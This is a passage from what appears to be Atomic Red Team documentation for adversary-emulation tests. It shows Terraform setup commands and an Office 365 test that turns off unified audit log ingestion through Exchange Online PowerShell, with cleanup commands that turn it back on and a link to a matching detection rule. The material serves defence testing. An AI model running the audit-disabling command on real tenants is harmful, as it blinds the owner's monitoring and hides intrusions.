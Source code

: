 ##### Get Prereq Commands:

```powershell
cd "$PathToAtomicsFolder/T1562.008/src/T1562.008-2/"
terraform init
terraform apply -auto-approve
```

<br/>
<br/>

## Atomic Test #3 - Office 365 - Exchange Audit Log Disabled

You can use the Exchange Management Shell to enable or disable mailbox audit logging for a mailbox.
Unified or Admin Audit logs are disabled via the Exchange Powershell cmdline.
https://github.com/Azure/Azure-Sentinel/blob/master/Detections/OfficeActivity/exchange_auditlogdisabled.yaml

**Supported Platforms:** Office-365

**auto_generated_guid:** 1ee572f3-056c-4632-a7fc-7e7c42b1543c

#### Inputs:

| Name     | Description         | Type   | Default Value |
| -------- | ------------------- | ------ | ------------- |
| username | office-365 username | string |               |
| password | office-365 password | string |               |

#### Attack Commands: Run with `powershell`!

```powershell
$secure_pwd = "#{password}" | ConvertTo-SecureString -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential -ArgumentList "#{username}", $secure_pwd
Connect-ExchangeOnline -Credential $creds
Set-AdminAuditLogConfig -UnifiedAuditLogIngestionEnabled $False
```

#### Cleanup Commands:

```powershell
$secure_pwd = "#{password}" | ConvertTo-SecureString -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential -ArgumentList "#{username}", $secure_pwd
Connect-ExchangeOnline -Credential $creds
Set-AdminAuditLogConfig -UnifiedAuditLogIngestionEnabled $True
```

#### Dependencies: Run with `powershell`!

##### Description: ExchangeOnlineManagement PowerShell module must be installed
